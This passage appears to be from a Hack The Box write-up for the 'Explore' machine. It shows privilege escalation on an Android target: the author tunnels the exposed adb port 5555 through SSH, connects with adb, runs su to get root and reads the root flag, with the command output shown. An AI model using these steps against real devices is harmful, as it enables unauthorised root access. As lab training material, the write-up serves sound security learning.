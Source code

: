## Privilege Escalation to Root User
With user access and a shell, next step is to escalate our privileges to root. From rooting a few cellphones in my day, I recognized the port 5555 from the nmap scan earlier. This is the adb debug port.

Let's try to connect with adb:

```text
[/home/gn0stic/htb/explore] λ adb connect explore.htb:5555
* daemon not running; starting now at tcp:5037
* daemon started successfully
```

Doesn't seem to get us far, after some looking it appears the connections need to be sourced from localhost even though the port is exposed from outside. Since we have ssh, we can easily create a ssh tunnel to accomplish this:

Setup the tunnel:
```text
[/home/gn0stic/htb/explore] λ ssh -p 2222 -L 5555:localhost:5555 kristi@explore.htb
Password authentication
Password: 
:/ $ 
```

Verify my localhost is listening on port 5555 (will be redirected to the victim's machine):
```text
[/home/gn0stic] λ netstat -tulpn |grep 5555
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 127.0.0.1:5555          0.0.0.0:*               LISTEN      29937/ssh           
tcp6       0      0 ::1:5555                :::*                    LISTEN      29937/ssh           
```

Try the adb connect through the tunnel:
```text
[/home/gn0stic] λ adb connect localhost:5555
connected to localhost:5555
```

Looks better. We can list the connected devices now:
```text
[/home/gn0stic] λ adb devices
List of devices attached
localhost:5555	device
```

Use adb to get a shell, su to root, and cat the flag:
```text
[/home/gn0stic] λ adb shell

x86_64:/ $ whoami                                                                             
shell

x86_64:/ $ su
:/ # whoami
root

:/ # cd /data/  

:/data # cat root.txt                                                          
f04fc82b6d4*truncated*
```


[1]: https://app.hackthebox.com/users/27897
[2]: https://www.hackthebox.eu